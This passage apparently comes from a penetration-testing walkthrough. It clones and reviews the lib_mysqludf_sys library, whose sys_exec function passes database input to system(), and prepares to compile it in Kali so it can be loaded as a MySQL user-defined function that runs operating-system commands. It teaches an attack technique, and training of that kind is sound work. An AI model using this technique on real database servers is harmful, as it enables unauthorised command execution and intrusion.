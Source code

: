 Let's download the code, review it, and compile it.

```bash
kali@kali:~$ git clone https://github.com/mysqludf/lib_mysqludf_sys.git
Cloning into 'lib_mysqludf_sys'...
...

kali@kali:~$ cd lib_mysqludf_sys/
kali@kali:~/lib_mysqludf_sys$ 
```

Opening up the lib_mysqludf_sys.c file shows us a fairly standard UDF library that allows for execution of system commands through the C/C++ _system_ function.

```bash
...
my_ulonglong sys_exec(
   UDF_INIT *initid
,  UDF_ARGS *args
,  char *is_null
,  char *error
){
  return system(args->args[0]);
}
...
```

Moreover, according to the code, the function exported by the shared library after compilation is named _sys_exec_ as in the previous exploit. We'll need to create a MySQL function with the same name in order to execute system commands from the database.

Now that we have reviewed the code, we will compile the shared library.

Looking at the install.sh file, as a prerequisite for compilation we need to install _libmysqlclient15-dev_. In Kali Linux, this is the _default-libmysqlclient-dev_ package, which can be installed with apt.

```bash
kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclient-dev
```

Now that we have the dependencies installed, we need to remove the old object file before generating the new one.

```bash
kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so 
```

Looking at the Makefile, we will need to make some minor adjustments to ensure we can compile the source file correctly.

```bash
LIBDIR=/usr/lib

install:
        gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib_mysqludf_sys.so
```
